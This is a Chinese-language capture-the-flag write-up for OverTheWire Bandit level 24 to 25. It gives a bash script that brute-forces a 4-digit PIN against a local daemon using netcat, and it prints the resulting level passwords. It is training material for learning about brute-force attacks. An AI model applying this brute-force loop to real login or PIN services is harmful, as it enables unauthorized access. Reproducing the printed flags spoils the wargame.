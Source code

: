 # [Level 24 -> 25](http://overthewire.org/wargames/bandit/bandit25.html)

 暴力的 shell script。

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Writeups

這題的提示很清楚，就是要用暴力破解的方式，一個一個試。但我們是要利用shell script 幫我們完成這件事。首先，創建一個的目錄，方便我們撰寫 script 及存放執行結果：

```shell
bandit24@melinda:~$ mkdir /tmp/bandit25script
bandit24@melinda:~$ cd /tmp/bandit25script
bandit24@melinda:/tmp/bandit25script$
```

撰寫```script.sh```：

```shell
#!/bin/bash

for pin in {0..9}{0..9}{0..9}{0..9}
    do
         echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin" | nc 127.0.0.1 30002 >> result.txt &
    done
```

開啟```script.sh```執行權限並執行：

```shell
bandit24@melinda:/tmp/bandit25script$ chmod 700 script.sh
bandit24@melinda:/tmp/bandit25script$ ./script.sh
```

最後利用```uniq```找出 Flag：

```shell
bandit24@melinda:/tmp/bandit25script$ sort result.txt | uniq -u

Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```


找到了！Flag：```uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG```。

> [Next level（Level 25 -> 26）](https://github.com/YanHaoChen/OverTheWire-Writeups/blob/master/Bandit/Level24to25.md) 

